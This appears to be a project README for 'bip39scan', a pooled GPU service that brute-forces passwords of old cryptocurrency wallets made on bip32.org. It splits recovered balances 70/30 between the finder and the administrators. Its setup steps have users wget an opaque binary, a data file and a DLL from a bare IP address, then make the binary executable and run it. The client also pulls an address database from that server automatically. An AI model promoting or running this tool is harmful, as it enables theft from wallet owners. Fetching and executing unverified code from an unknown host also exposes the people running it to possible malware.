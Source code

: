 # bip39scan v2.0.1 POOL
**Collective search of old coins from the site bip32.org**

➡️ Online Statistic https://bip39scan.com<br>
➡️ Telegram group https://t.me/bip39scan

**Pool conditions:**<br>
70% of the balance of the find to the one who found the password.<br>
30% of the balance of the find to the project administration

## Connect to the pool
### Linux:
wget http://95.215.108.160/up/xx<br>
wget http://95.215.108.160/up/precomp.bin<br>
wget http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```chmod +x xx```<br>
```./xx -u YourNickName --bloom 2048M```<br>

### Windows:
http://95.215.108.160/up/xx.exe<br>
http://95.215.108.160/up/precomp.bin<br>
http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```xx.exe -u Nick_Name --bloom 2048M```<br>



## Question and Answer




# Clients MultiGPUs
All clients perform their part (chunk) of the overall task.<br>
Only CUDA cards support GTX, RTX, CMP<br>
Brute speed:<br>
RTX 4090 = 520k/s<br>
RTX 5090 = 800k/s<br>

To connect to the server, a short command<br>
linux:   ```./xx -u YourNick```<br>
win: ```xx.exe -u NameRigs```

The client automatically downloads the address database. <br>
If the database on the server has changed, it automatically updates it. <br>
After downloading, the client checks the checksum of the database, which excludes incompletely downloaded addresses.

After launching, the client displays only the speed.<br>
If the client finds an address, the window displays the found address.<br>
<img width="977" height="510" alt="Image" src="https://github.com/user-attachments/assets/29720e79-e401-4d2c-82e1-f134dc52858d" />

The search position is displayed in the admin client<br>
![Image](https://github.com/user-attachments/assets/5fa5e231-56c6-4845-afea-36483cf3f5c3)



